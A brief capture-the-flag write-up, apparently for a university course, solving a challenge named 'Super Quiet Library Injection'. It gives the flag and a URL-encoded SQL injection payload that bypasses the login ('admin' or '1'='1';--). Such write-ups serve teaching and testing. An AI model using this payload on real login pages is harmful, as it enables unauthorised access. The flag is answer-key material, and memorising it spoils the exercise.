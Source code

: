 # Challenge

**Name:** Super Quiet Library Injection

**Category:** Vulnerabilities

**Difficulty:** Hard

**Description:** 

You need to be very quiet in the **Super Quiet Library** and not **Inject** any noise into the environment!

**Flag:** CITS1003{iNj3tInG_tH3_5Ql_l00000l!!!!11one!!}

## Solution

### SQLi Authentication Bypass

* The login page is vulnerable to SQLi authentication bypass

* Example POST payload (it is URL encoded as well)
```
username=admin%27+or+%271%27+%3D+%271%27%3B--&password=test
```